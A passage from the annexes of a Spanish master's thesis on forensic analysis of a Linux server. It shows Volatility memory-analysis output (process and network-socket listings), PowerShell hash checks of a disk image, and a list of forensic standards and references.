.[kdevtmpfs]        13
.[netns]            14
.[rcu_tasks_kthre]  15
.[kauditd]          16
.[xenbus]           17
.[xenwatch]         18
.[khungtaskd]       20
.[oom_reaper]       21
.[writeback]        22
.[kcompactd0]       23
.[ksmd]             24
.[khugepaged]       25
.[crypto]           26
.[kintegrityd]      27
.[kblockd]          28
.[ata_sff]          29
.[md]               30
.[edac-poller]      31
.[devfreq_wq]       32
.[watchdogd]        33
.[kswapd0]          36
.[ecryptfs-kthrea]  37
.[kthrotld]         79
.[nvme-wq]          80
.[scsi_eh_0]        81
.[scsi_tmf_0]       82
.[scsi_eh_1]        83
.[scsi_tmf_1]       84
.[ipv6_addrconf]    89
.[kstrp]            99
.[kworker/0:1H]     100
.[raid5wq]          280
.[jbd2/xvda1-8]     330
.[ext4-rsv-conver]  331
.[iscsi_eh]         395
.[ib-comp-wq]       408
.[ib_mcast]         409
.[ib_nl_sa_wq]      410
.[rdma_cm]          415
.[loop0]            951
.[loop1]            1103
.[xfsalloc]         10374
.[xfs_mru_cache]    10375
.[loop2]            6189
.[loop3]            6349
.[kworker/0:0]      19056
.[kworker/u30:2]    19454
.[kworker/0:1]      19709
.[kworker/u30:1]    20781
.[kworker/u30:0]    20886
.[kworker/0:2]      20898
~~~

[Volver al texto del comando en la Sección 3.5.2.](#352-comando-001)

---

                           

#### 8.4.003.006.003.001. Comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_netstat`.

~~~Shell
sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_netstat
~~~

La respuesta de la consola ha sido la siguiente:

~~~
Volatility Foundation Volatility Framework 2.6.1
UNIX 26653              systemd/1     
UNIX 26655              systemd/1     /run/systemd/private
UNIX 439014             systemd/1     
UNIX 12401              systemd/1     /run/systemd/notify
UNIX 12402              systemd/1     
UNIX 12403              systemd/1     
UNIX 674406             systemd/1     /run/systemd/journal/stdout
UNIX 27271              systemd/1     
UNIX 27272              systemd/1     
UNIX 12487              systemd/1     /run/lvm/lvmpolld.socket
UNIX 16183              systemd/1     /run/uuidd/request
UNIX 16173              systemd/1     /run/acpid.socket
UNIX 12489              systemd/1     /run/systemd/journal/dev-log
UNIX 96496              systemd/1     /run/systemd/journal/stdout
UNIX 45081              systemd/1     /run/systemd/journal/stdout
UNIX 43741              systemd/1     /run/systemd/journal/stdout
UNIX 32383              systemd/1     /run/systemd/journal/stdout
UNIX 32104              systemd/1     /run/systemd/journal/stdout
UNIX 27373              systemd/1     /run/systemd/journal/stdout
UNIX 27010              systemd/1     /run/systemd/journal/stdout
UNIX 26769              systemd/1     /run/systemd/journal/stdout
UNIX 13606              systemd/1     /run/systemd/journal/stdout
UNIX 18718              systemd/1     /run/systemd/journal/stdout
UNIX 18729              systemd/1     /run/systemd/journal/stdout
UNIX 18730              systemd/1     /run/systemd/journal/stdout
UNIX 18731              systemd/1     /run/systemd/journal/stdout
UNIX 18756              systemd/1     /run/systemd/journal/stdout
UNIX 97213              systemd/1     /run/systemd/journal/stdout
UNIX 16178              systemd/1     /run/snapd.socket
UNIX 16180              systemd/1     /run/snapd-snap.socket
UNIX 12732              systemd/1     /run/udev/control
UNIX 12878              systemd/1     /run/lvm/lvmetad.socket
UNIX 16171              systemd/1     /var/run/dbus/system_bus_socket
UNIX 12417              systemd/1     /run/systemd/journal/stdout
UNIX 12419              systemd/1     /run/systemd/journal/socket
UNIX 12532              systemd/1     /run/systemd/journal/syslog
UNIX 16191              systemd/1     /var/lib/lxd/unix.socket
UNIX 13181              lvmetad/414   
UNIX 13181              lvmetad/414   
UNIX 12878              lvmetad/414   /run/lvm/lvmetad.socket
UNIX 16470       systemd-logind/712   
UNIX 16470       systemd-logind/712   
UNIX 16548       systemd-logind/712   
UNIX 16630       systemd-logind/712   
UNIX 16785          dbus-daemon/720   
UNIX 16785          dbus-daemon/720   
UNIX 16171          dbus-daemon/720   /var/run/dbus/system_bus_socket
UNIX 16822          dbus-daemon/720   
UNIX 16823          dbus-daemon/720   
UNIX 16824          dbus-daemon/720   
UNIX 26801          dbus-daemon/720   /var/run/dbus/system_bus_socket
UNIX 43825          dbus-daemon/720   /var/run/dbus/system_bus_socket
UNIX 16827          dbus-daemon/720   /var/run/dbus/system_bus_socket
UNIX 27245          dbus-daemon/720   /var/run/dbus/system_bus_socket
UNIX 17410          dbus-daemon/720   /var/run/dbus/system_bus_socket
UNIX 18201          dbus-daemon/720   /var/run/dbus/system_bus_socket
UNIX 26654          dbus-daemon/720   /var/run/dbus/system_bus_socket
UNIX 16917                 cron/733   
UNIX 16917                 cron/733   
UNIX 16999      accounts-daemon/734   
UNIX 16999      accounts-daemon/734   
UNIX 17409      accounts-daemon/734   
UNIX 17231                lxcfs/737   
UNIX 17231                lxcfs/737   
UNIX 18200              polkitd/771   
UNIX 26767      systemd-network/2788  
UNIX 26767      systemd-network/2788  
UNIX 26789      systemd-network/2788  
UNIX 26796      systemd-network/2788  
UNIX 26797      systemd-network/2788  
UNIX 26798      systemd-network/2788  
UNIX 26799      systemd-network/2788  
UNIX 26800      systemd-network/2788  
UDP      172.31.38.110   :   68 0.0.0.0         :    0                   systemd-network/2788 
UNIX 27007      systemd-resolve/2804  
UNIX 27007      systemd-resolve/2804  
UNIX 27228      systemd-resolve/2804  
UNIX 27244      systemd-resolve/2804  
UDP      127.0.0.53      :   53 0.0.0.0         :    0                   systemd-resolve/2804 
TCP      127.0.0.53      :   53 0.0.0.0         :    0 LISTEN            systemd-resolve/2804 
UNIX 27371      systemd-timesyn/2818  
UNIX 27371      systemd-timesyn/2818  
UNIX 27393      systemd-timesyn/2818  
UNIX 27396      systemd-timesyn/2818  
UNIX 27397      systemd-timesyn/2818  
UNIX 27398      systemd-timesyn/2818  
UNIX 27399      systemd-timesyn/2818  
UNIX 12417      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 12419      systemd-journal/2825  /run/systemd/journal/socket
UNIX 12489      systemd-journal/2825  /run/systemd/journal/dev-log
UNIX 27373      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 43741      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 27010      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 26769      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 96496      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 97213      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 674406     systemd-journal/2825  /run/systemd/journal/stdout
UNIX 13606      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 32383      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 18718      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 18729      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 18730      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 18731      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 45081      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 18756      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 27521      systemd-journal/2825  
UNIX 32104      systemd-journal/2825  /run/systemd/journal/stdout
UNIX 32103                uuidd/5077  
UNIX 32103                uuidd/5077  
UNIX 16183                uuidd/5077  /run/uuidd/request
UNIX 32381        systemd-udevd/5160  
UNIX 32381        systemd-udevd/5160  
UNIX 12732        systemd-udevd/5160  /run/udev/control
UNIX 32384        systemd-udevd/5160  
UNIX 32388        systemd-udevd/5160  
UNIX 32389        systemd-udevd/5160  
UNIX 43155               iscsid/10988 
UNIX 43143               iscsid/10989 
UNIX 43153               iscsid/10989 
UNIX 43740      networkd-dispat/11199 
UNIX 43740      networkd-dispat/11199 
UNIX 43824      networkd-dispat/11199 
UNIX 45080                 sshd/12159 
UNIX 45080                 sshd/12159 
TCP      0.0.0.0         :   22 0.0.0.0         :    0 LISTEN                       sshd/12159
TCP      ::              :   22 ::              :    0 LISTEN                       sshd/12159
TCP      127.0.0.1       : 3306 0.0.0.0         :    0 LISTEN                     mysqld/5127 
UNIX 90469               mysqld/5127  /var/run/mysqld/mysqld.sock
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/5469 
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/5469 
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/5469 
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/5469 
UNIX 96495                snapd/6219  
UNIX 96495                snapd/6219  
UNIX 16178                snapd/6219  /run/snapd.socket
UNIX 16180                snapd/6219  /run/snapd-snap.socket
UNIX 97212      amazon-ssm-agen/6445  
UNIX 97212      amazon-ssm-agen/6445  
UNIX 12532             rsyslogd/26254 /run/systemd/journal/syslog
UNIX 439139            rsyslogd/26254 /var/spool/postfix/dev/log
UNIX 439143            rsyslogd/26254 
UNIX 440157              master/26489 
TCP      127.0.0.1       :   25 0.0.0.0         :    0 LISTEN                     master/26489
TCP      ::1             :   25 ::              :    0 LISTEN                     master/26489
UNIX 440176              master/26489 
UNIX 440177              master/26489 
UNIX 440178              master/26489 public/pickup
UNIX 440179              master/26489 
UNIX 440180              master/26489 
UNIX 440182              master/26489 public/cleanup
UNIX 440183              master/26489 
UNIX 440184              master/26489 
UNIX 440185              master/26489 public/qmgr
UNIX 440186              master/26489 
UNIX 440187              master/26489 
UNIX 440189              master/26489 private/tlsmgr
UNIX 440190              master/26489 
UNIX 440191              master/26489 
UNIX 440192              master/26489 private/rewrite
UNIX 440193              master/26489 
UNIX 440194              master/26489 
UNIX 440195              master/26489 private/bounce
UNIX 440196              master/26489 
UNIX 440197              master/26489 
UNIX 440198              master/26489 private/defer
UNIX 440199              master/26489 
UNIX 440200              master/26489 
UNIX 440201              master/26489 private/trace
UNIX 440202              master/26489 
UNIX 440203              master/26489 
UNIX 440204              master/26489 private/verify
UNIX 440205              master/26489 
UNIX 440206              master/26489 
UNIX 440207              master/26489 public/flush
UNIX 440208              master/26489 
UNIX 440209              master/26489 
UNIX 440210              master/26489 private/proxymap
UNIX 440211              master/26489 
UNIX 440212              master/26489 
UNIX 440213              master/26489 private/proxywrite
UNIX 440214              master/26489 
UNIX 440215              master/26489 
UNIX 440216              master/26489 private/smtp
UNIX 440217              master/26489 
UNIX 440218              master/26489 
UNIX 440219              master/26489 private/relay
UNIX 440220              master/26489 
UNIX 440221              master/26489 
UNIX 440222              master/26489 public/showq
UNIX 440223              master/26489 
UNIX 440224              master/26489 
UNIX 440225              master/26489 private/error
UNIX 440226              master/26489 
UNIX 440227              master/26489 
UNIX 440228              master/26489 private/retry
UNIX 440229              master/26489 
UNIX 440230              master/26489 
UNIX 440231              master/26489 private/discard
UNIX 440232              master/26489 
UNIX 440233              master/26489 
UNIX 440234              master/26489 private/local
UNIX 440235              master/26489 
UNIX 440236              master/26489 
UNIX 440237              master/26489 private/virtual
UNIX 440238              master/26489 
UNIX 440239              master/26489 
UNIX 440240              master/26489 private/lmtp
UNIX 440241              master/26489 
UNIX 440242              master/26489 
UNIX 440243              master/26489 private/anvil
UNIX 440244              master/26489 
UNIX 440245              master/26489 
UNIX 440246              master/26489 private/scache
UNIX 440247              master/26489 
UNIX 440248              master/26489 
UNIX 440249              master/26489 private/maildrop
UNIX 440250              master/26489 
UNIX 440251              master/26489 
UNIX 440252              master/26489 private/uucp
UNIX 440253              master/26489 
UNIX 440254              master/26489 
UNIX 440255              master/26489 private/ifmail
UNIX 440256              master/26489 
UNIX 440257              master/26489 
UNIX 440258              master/26489 private/bsmtp
UNIX 440259              master/26489 
UNIX 440260              master/26489 
UNIX 440261              master/26489 private/scalemail-backend
UNIX 440262              master/26489 
UNIX 440263              master/26489 
UNIX 440264              master/26489 private/mailman
UNIX 440265              master/26489 
UNIX 440266              master/26489 
UNIX 440187                qmgr/26500 
UNIX 440185                qmgr/26500 public/qmgr
UNIX 440388                qmgr/26500 
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19704
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19704
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19704
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19704
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19705
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19705
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19705
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19705
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19706
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19706
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19706
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19706
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19707
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19707
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19707
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19707
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19708
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19708
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19708
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19708
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19952
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19952
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19952
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19952
TCP      ::ffff172.31.38.110:   80 ::ffff18.195.165.56:41529 CLOSE_WAIT                apache2/19952
TCP      172.31.38.110   :46384 172.31.33.128   : 8080 ESTABLISHED               apache2/19952
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19953
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19953
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19953
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19953
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20230
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/20230
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20230
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/20230
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20231
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/20231
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20231
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/20231
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20232
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/20232
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20232
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/20232
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20233
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/20233
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20233
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/20233
TCP      172.31.38.110   :   22 83.247.136.74   :16666 ESTABLISHED                  sshd/20483
UNIX 674291                sshd/20483 
UNIX 674626                sshd/20483 
UNIX 674389             systemd/20485 
UNIX 674389             systemd/20485 
UNIX 674408             systemd/20485 
UNIX 674432             systemd/20485 /run/user/1000/systemd/notify
UNIX 674433             systemd/20485 
UNIX 674434             systemd/20485 
UNIX 674435             systemd/20485 /run/user/1000/systemd/private
UNIX 674439             systemd/20485 /run/user/1000/gnupg/S.dirmngr
UNIX 674440             systemd/20485 /run/user/1000/gnupg/S.gpg-agent.ssh
UNIX 674441             systemd/20485 /run/user/1000/gnupg/S.gpg-agent.extra
UNIX 674442             systemd/20485 /run/user/1000/gnupg/S.gpg-agent
UNIX 674443             systemd/20485 /run/user/1000/gnupg/S.gpg-agent.browser
UNIX 674389            (sd-pam)/20486 
UNIX 674389            (sd-pam)/20486 
UNIX 674395            (sd-pam)/20486 
TCP      172.31.38.110   :   22 83.247.136.74   :16666 ESTABLISHED                  sshd/20576
UNIX 674291                sshd/20576 
UNIX 674625                sshd/20576 
UNIX 440180              pickup/20703 
UNIX 440178              pickup/20703 public/pickup
UNIX 675208              pickup/20703 
UNIX 676234                sudo/20893 
~~~

[Volver al texto del comando en la Sección 3.6.3.](#363-comando-001)

---

                                     

#### 8.4.003.006.003.002. Resumen del comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_netstat`.

~~~
Volatility Foundation Volatility Framework 2.6.1
UDP      172.31.38.110   :   68 0.0.0.0         :    0                   systemd-network/2788 
UDP      127.0.0.53      :   53 0.0.0.0         :    0                   systemd-resolve/2804 
TCP      127.0.0.53      :   53 0.0.0.0         :    0 LISTEN            systemd-resolve/2804 
TCP      0.0.0.0         :   22 0.0.0.0         :    0 LISTEN                       sshd/12159
TCP      ::              :   22 ::              :    0 LISTEN                       sshd/12159
TCP      127.0.0.1       : 3306 0.0.0.0         :    0 LISTEN                     mysqld/5127 
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/5469 
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/5469 
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/5469 
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/5469 
TCP      127.0.0.1       :   25 0.0.0.0         :    0 LISTEN                     master/26489
TCP      ::1             :   25 ::              :    0 LISTEN                     master/26489
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19704
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19704
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19704
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19704
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19705
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19705
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19705
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19705
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19706
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19706
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19706
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19706
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19707
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19707
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19707
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19707
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19708
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19708
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19708
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19708
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19952
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19952
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19952
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19952
TCP      ::ffff172.31.38.110:   80 ::ffff18.195.165.56:41529 CLOSE_WAIT                apache2/19952
TCP      172.31.38.110   :46384 172.31.33.128   : 8080 ESTABLISHED               apache2/19952
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19953
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/19953
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/19953
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/19953
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20230
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/20230
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20230
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/20230
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20231
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/20231
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20231
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/20231
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20232
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/20232
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20232
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/20232
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20233
TCP      ::              :   80 ::              :    0 LISTEN                    apache2/20233
TCP      0.0.0.0         :    0 0.0.0.0         :    0 CLOSE                     apache2/20233
TCP      ::              :  443 ::              :    0 LISTEN                    apache2/20233
TCP      172.31.38.110   :   22 83.247.136.74   :16666 ESTABLISHED                  sshd/20483
TCP      172.31.38.110   :   22 83.247.136.74   :16666 ESTABLISHED                  sshd/20576
~~~

[Volver al texto del comando en la Sección 3.6.3.](#363-comando-002)

---

                         

#### 8.4.004.001.001. Comando Hash MD5.

~~~PowerShell
Get-FileHash .\Server_HDD.E01 -Algorithm MD5
~~

La respuesta de PowerShell es el siguiente:

~~~PowerShell
Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             324ED7DB769620E3FB55C027480D0EF3                                       C:\Users\jrodg85\Desktop\Nuev...
~~~

[Volver al texto del comando en la Sección 4.1](#41-comando-001-41-comando-002)

---

#### 8.4.004.001.002. Comando Hash SHA1.

~~~PowerShell
Get-FileHash .\Server_HDD.E01 -Algorithm SHA1
~~

La respuesta de PowerShell es el siguiente:

~~~PowerShell
Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA1            3398F90D2438230AAAF7B5E8CE0A01E456D9CA10                               C:\Users\jrodg85\Desktop\Nuev...
~~~

[Volver al texto del comando en la Sección 4.1](#41-comando-001-41-comando-002)

---

[Volver al Índice del capítulo 8. Anexos.](#índice-del-capítulo-8-anexos)

[Volver al Índice General.](#índice-general)

---

      

## 8.5. Referencias.

---

#### 8.5.001. Enunciado TFM:

- Autor: Universitat Oberta de Catalunya.
- Título del trabajo: Enunciado TFM - Análisis forense.
- Título del Contenedor: Descripción del caso.
- URL: [https://drive.google.com/file/d/1TOKWOF_akO6IKVvXJ9ovPxMMhd9kafy1/view](https://drive.google.com/file/d/1TOKWOF_akO6IKVvXJ9ovPxMMhd9kafy1/view)
- URL repositorio Github: [ENUNCIADO-M1.881-TFM-ANÁLISIS-FORENSE-SISTEMAS-INFORMÁTICOS.pdf](https://github.com/jrodg85/TFM-ANALISIS-FORENSE/blob/main/referencias/001-ENUNCIADO-M1.881-TFM-ANALISIS-FORENSE-SISTEMAS-INFORMATICOS.pdf)

[Volver at texto de la referencia en la Sección 1.0.](#10-referencia-001)

[Volver at texto de la referencia en la Sección 1.2.](#12-referencia-001-12-referencia-003)

---

#### 8.5.002. Propuestas de TFM:

- Autor: Universitat Oberta de Catalunya.
- Título del trabajo: M1.881 - AnálisiS forense.
- Título del Contenedor: Descripción.
- URL: [https://docs.google.com/spreadsheets/d/16JGkkrY4fiPN32RAfdpVuLJBZrnewscpmuTelbe3X_o/edit#gid=0](https://docs.google.com/spreadsheets/d/16JGkkrY4fiPN32RAfdpVuLJBZrnewscpmuTelbe3X_o/edit#gid=0)
- URL repositorio Github: [002-PROPUESTA-TFM-EXCEL.pdf](https://github.com/jrodg85/TFM-ANALISIS-FORENSE/blob/main/referencias/002-PROPUESTA-TFM-EXCEL.pdf)

[Volver at texto de la referencia en la Sección 1.1.](#11-referencia-002)

---
#### 8.5.003. El método Reagan:

- Autor: GEFIRA.
- Título del trabajo: El método Reagan.
- URL: [https://www.xn--elespaoldigital-3qb.com/el-metodo-reagan/](https://www.xn--elespaoldigital-3qb.com/el-metodo-reagan/)

[Volver at texto de la referencia en la Sección 1.2.](#12-referencia-001-12-referencia-003)

---

#### 8.5.004. Norma ISO 27037:

- Autor: International Organization for Standardization.
- Título del trabajo: Information technology — Security techniques — Guidelines for identification, collection, acquisition, and preservation of digital evidence.
- URL: [https://www.amnafzar.net/files/1/ISO%2027000/ISO%20IEC%2027037-2012.pdf](https://www.amnafzar.net/files/1/ISO%2027000/ISO%20IEC%2027037-2012.pdf)
- URL repositorio Github: [003-ISOIEC-27037-2012.pdf](https://github.com/jrodg85/TFM-ANALISIS-FORENSE/blob/main/referencias/003-ISOIEC-27037-2012.pdf)

[Volver at texto de la referencia en la Sección 1.3.2.](#132-referencia-004)

---

#### 8.5.005. IMPLEMENTACIÓN DE HERRAMIENTAS PARA LA EXTRACCIÓN DE EVIDENCIA DIGITAL:

- Autor: ANTHONY ALEXANDER GUZMÁN MOLINA.
- Título del trabajo: IMPLEMENTACIÓN DE HERRAMIENTAS PARA LA EXTRACCIÓN DE EVIDENCIA DIGITAL .
- Título del Contenedor: ISO/IEC 30121.
- URL: [https://bibdigital.epn.edu.ec/bitstream/15000/23797/1/CD%2013084.pdf](https://bibdigital.epn.edu.ec/bitstream/15000/23797/1/CD%2013084.pdf)
- URL repositorio Github: [004-IMPLEMENTACIÓN-HERRAMIENTAS-PARA-LA-EXTRACCIÓN-DE-EVIDENCIA-DIGITAL.pdf](https://github.com/jrodg85/TFM-ANALISIS-FORENSE/blob/main/referencias/004-IMPLEMENTACION-HERRAMIENTAS-PARA-LA-EXTRACCION-DE-EVIDENCIA-DIGITAL.pdf)

[Volver at texto de la referencia en la Sección 1.3.2.](#132-referencia-005)

---

#### 8.5.006. Norma RFC 3227:

- Autores:  Dominique Brezinski & Tom Killalea.
- Título del trabajo: RFC 3227.
- URL Español: [https://www.rfc-es.org/pendientes/rfc3227-es.nroff](https://www.rfc-es.org/pendientes/rfc3227-es.nroff)
- URL Inglés: [https://datatracker.ietf.org/doc/html/rfc3227](https://datatracker.ietf.org/doc/html/rfc3227)
- URL repositorio Github: [005-RFC-3227-ESP.pdf](https://github.com/jrodg85/TFM-ANALISIS-FORENSE/blob/main/referencias/005-RFC-3227-ESP.pdf)

[Volver at texto de la referencia en la Sección 1.3.3.](#133-referencia-006)

---

#### 8.5.007. Que son las normas UNE:

- Autor:  Grupo ACMS Consultores.
- Título del trabajo: Norma UNE: Significado y Estructura.
- URL Español: [https://www.grupoacms.com/consultora/norma-une-significado](https://www.grupoacms.com/consultora/norma-une-significado)

[Volver at texto de la referencia en la Sección 1.3.4.](#134-referencia-007)

---

#### 8.5.008. Norma UNE 71505:

- Autor:  AENOR, Asociación Española de Normalización y Certificación.
- Título del trabajo: Norma UNE 71505.
- URL repositorio Github: [006-UNE-71505-2013.pdf](https://github.com/jrodg85/TFM-ANALISIS-FORENSE/blob/main/referencias/006-UNE-71505-2013.pdf)

[Volver at texto de la referencia en la Sección 1.3.4.](#134-referencia-008)

---

        

#### 8.5.009. Metodología para un análisis forense:

- Autores: Carles Gervilla Rivas.
- Título del trabajo: Metodología para un Análisis Forense.
- Título del Contenedor: DESARROLLO DE UNA METODOLOGÍA PARA EL ANÁLISIS FORENSE.
- URL: [https://openaccess.uoc.edu/bitstream/10609/39681/6/cgervillarTFM1214memoria.pdf](https://openaccess.uoc.edu/bitstream/10609/39681/6/cgervillarTFM1214memoria.pdf)
- URL repositorio Github: [007-METODOLOGÍA-PARA-UN-ANÁLISIS-FORENSE.pdf](https://github.com/jrodg85/TFM-ANALISIS-FORENSE/blob/main/referencias/007-METODOLOGÍA-PARA-UN-ANÁLISIS-FORENSE.pdf)

[Volver at texto de la referencia en la Sección 1.3.5.](#135-referencia-009-135-referencia-010)

---

#### 8.5.010. Ninjas de la web. Metodología para un análisis forense:

- Autor: Miguel Angel Olivares.
- Título del trabajo: Metodología de Análisis Forense (Ninjas de la Web).
- URL: [https://ninjasdelaweb.com/metodologia-de-analisis-forense/](https://ninjasdelaweb.com/metodologia-de-analisis-forense/)

[Volver at texto de la referencia en la Sección 1.3.5.](#135-referencia-009-135-referencia-010)

---

#### 8.5.011. Cómputo Forense de Wikipedia:

- Autor: Avelaz
- Ultimo editor: Sabbut
- Título visualizado: Cómputo forense
- Criterio de ordenación predeterminado: Cómputo forense
- URL: [https://es.wikipedia.org/wiki/C%C3%B3mputo_forense](https://es.wikipedia.org/wiki/C%C3%B3mputo_forense)

[Volver at texto de la referencia en la Sección 1.7.](#17-referencia-011)

---

#### 8.5.012. Creación de perfil en Volatility (hotfixed42):

- Autor: hotfixed42.
- Título del trabajo: Creación de perfiles linux para Volatility.
- URL: [https://hotfixed42.rssing.com/chan-32986353/article3.html](https://hotfixed42.rssing.com/chan-32986353/article3.html)

[Volver at texto de la referencia en la Sección 3.3.0.](#330-referencia-012-330-referencia-013-330-referencia-014)

---

#### 8.5.013. Creación de perfil en Volatility (bytelearning):

- Autor: bytelearning.
- Título del trabajo: Memoria RAM en Linux; una valiosa fuente de información.
- URL: [https://bytelearning.blogspot.com/2017/02/memoria-ram-linux-fuente-informacion.html](https://bytelearning.blogspot.com/2017/02/memoria-ram-linux-fuente-informacion.html)

[Volver at texto de la referencia en la Sección 3.3.0.](#330-referencia-012-330-referencia-013-330-referencia-014)

---

 

#### 8.5.014. Creación de perfil en Volatility (andreafortuna):

- Autor: andreafortuna.
- Título del trabajo: How to generate a Volatility profile for a Linux system.
